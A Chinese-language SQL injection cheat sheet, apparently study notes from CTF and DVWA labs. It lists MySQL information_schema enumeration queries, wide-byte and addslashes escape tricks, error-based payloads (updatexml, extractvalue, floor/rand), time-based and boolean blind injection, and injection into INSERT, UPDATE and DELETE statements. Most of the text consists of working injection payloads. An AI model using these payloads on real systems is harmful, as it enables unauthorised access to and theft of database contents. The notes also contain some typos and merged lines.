


SQL注入相关知识点
常用查询语句
select user() ;
select database();
#获取数据库名
select schema_name from information_schema.schemata limit 0,1;
#获取表名
select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1;
#获取列名（字段名）
select column_name from information_schema.columns where table_name = 'users' limit 0,1;三个重要的函数
concat()函数
1、功能：将多个字符串连接成一个字符串。
2、语法：concat(str1, str2,…)
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
concat_ws()函数
1、功能：和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符～（concat_ws就是concat with separator）
2、语法：concat_ws(separator, str1, str2, …)
说明：第一个参数指定分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null。
group_concat()函数
1、功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
2、语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator ‘分隔符’] )
举例：group_concat(concat_ws(‘, ‘, contactLastName, contactFirstName) separator ‘;’)
宽字节注入
原理
宽字节注入是利用mysql的一个特性，mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ASCII码要大于128，才到汉字的范围），示例如下图：

相关知识点
URL转码
’ ——> %27
空格 ——> %20
\#符号 ——> %23
\ ——> %5C
addslashes函数：

如何从addslashes函数逃逸出来？
1、在\前面再加一个\（或单数个），变成\ \ ‘,这样\被转义了，’逃出了限制
2、把\弄没
报错注入
十种报错注入
常用
and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema = 'sqli' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
and (select 1 from (select count(*),concat((select column_name from information_schema.columns where table_name = "flag2" limit 0,1),' ',floor(rand(0)*2))x from information_schema.tables group by x )a)%23
and (extractvalue(1,concat(0x7e,(select group_concat(flag2) from flag2))))
and (updatexml(1,concat(0x7e,(select group_concat(flag2) from flag2)),1))
#updatexml最大长度为32位
and exp(~(select * from (select user())a))
NAME_CONST()
select * from (select NAME_CONST(version(),1),NAME_CONST(version,1))a;时间盲注
延时相关函数
触发函数
1、IF
Select * from table where id = 1 and if(database()=’’,sleep(4),null))
2、Select case when
CASE WHEN conditionTHEN result[WHEN ...][ELSE result]END
select case when username='admin' THEN 'aaa' ELSE (sleep(3) ) end from user;截取函数
substring、substr、subastring_index
SUBSTRING(str,pos) , SUBSTRING(strFROM pos)
SUBSTRING(str,pos,len) , SUBSTRING(strFROM posFOR len)
substr(string, start, length)
参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
substring_index()
substring_index（str,delim,count）说明：substring_index（被截取字段，关键字，关键字出现的次数）
Select * from table where id = 1 and (if (substr(database(),1,1)=’’,sleep(4),null))
Select * from table where id = 1 and (if(ascii(substr(database(),1,1))=100,sleep(4),null))mid()、left()、right()
MID(column_name,start[,length]) 参数1、2必须，length可选，返回的字符数。若不选，则返回剩下的
left（str, length）从左开始截取字符串说明：left（被截取字段，截取长度）
right（str, length）从右开始截取字符串说明：right（被截取字段，截取长度）
延时函数
sleep()
benchmark()
select benchmark(10000000,sha(1))
笛卡尔积
SELECT count(*) FROM information_schema.columnsA, information_schema.columnsB, information_schema.tablesC
RLIKE(通过正则匹配)
select concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'Boolen注入
相关函数
几乎同时间盲注
ASCII()、ORD()
返回第一个字符的ASCII码
Order by注入
insert，update和delete注入
insert into users (id, username, password) values (2, 'attacker' or updatexml(1,concat(0x7e,database()),0), ’passwd’);
update users set password=’password' or updatexml(1,concat(0x7e,database()),0) WHERE id=2
daletefrom users where id=2 or updatexml(1,concat(0x7e,database()),0)